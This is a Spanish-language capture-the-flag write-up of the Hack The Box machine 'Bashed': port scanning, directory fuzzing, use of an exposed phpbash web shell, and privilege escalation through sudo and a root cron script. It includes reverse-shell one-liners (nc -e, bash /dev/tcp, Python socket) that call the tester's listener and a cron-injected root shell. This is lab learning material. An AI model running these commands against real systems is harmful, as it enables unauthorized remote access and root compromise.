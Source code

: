 # Bashed-HTB
Resolucion de la maquina

## Nmap

```
nmap -sS -Pn --open 10.129.165.94 -oG scan 
```

Encontramos el puerto 80 tcp abierto

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/678fc948-f147-42df-82d1-fe6d367732b1)

Dentro de la pagina encontramos que esta montado eso intentamos ver si tiene ruta por defecto. Credencuales etc.

```
/uploads/phpbash.php 404 not found
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/0c544556-8cab-4cb5-bc5d-4532791899e2)

Entonces debe de haber otra ruta...

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -t 1000 -u  http://10.0.10.1:5000/FUZZ

# Encontramos todas esas rutas accesibles

http://10.129.79.161/php/ #Encontramos un archivo sendMail.php

http://10.129.79.161/images/ # Imagenes

http://10.129.79.161/fonts/ #Fonts

http://10.129.79.161/js/ #Js 

http://10.129.79.161/dev/ # Aqui esta el RCE inicial el phpbash.php

http://10.129.79.161/css/
```

## PHPBASH

> https://github.com/Arrexel/phpbash

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/97bf7979-4b93-4530-9189-126b9583904c)

## RCE

Intente salir de esa shell subiendo un php con nc y bash y no jalo pero con python si...

```
nc -e /bin/bash 10.10.14.74 443 # No Jalo

bash -i >& /dev/tcp/10.10.14.74/4444 0>&1 # no jalo mmm

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",443)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Full tty

python -c ‘import pty; pty.spawn(“/bin/bash”);’

```
Si miramos un poco la maquina nos dice que:

> sudo -l reveals that the ​www-data​ user can run any command as scriptmanager​, without having to provide a password.

Entonces nos hacemos scriptmanager

```
(scriptmanager : scriptmanager) NOPASSWD: ALL

sudo -u scriptmanager /bin/bash
```

## Apache rutas interesantes

Aqui recopile algunas rutas interesantes.

```
/etc/apache2/sites-enabled
/etc/apache2/sites-enabled/000-default.conf
/var/www/pub
/etc/php/7.0/mods-available/ftp.ini
/usr/share/php7.0-common/common/ftp.ini
/home/scriptmanager/.bashrc
/var/www/html/config.php
## Busque archivos SUID


find / -name "*.*" -type f -perm -400

```

Al ejecutar el linpeas nos dimos cuenta de la existencia de un folder /scripts y tambien usamos el pspy para ver si hay una tarea cron y si.

```
pspy32s
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/9c427a79-031d-442b-91eb-1b26e5533e37)

Si vemos tiene el UID en cero lo que nos indica que root esta corriendo ese comando.

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/e63c0eda-4b2b-4599-852a-565ec9733d1f)

Podemos observar que el archivo se puede escribir por el usuario que somos scriptmanager.

```
Se ejecutara cada minuto y nos regresa una reverse shell con permisos de root.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",4444)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/040d5787-ea2a-494e-8854-5a44229e1c9f)


## Metodo alternativo

Volver SUID el bash 

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/7c543572-6ebd-4a56-adde-c8d57aefecd2)






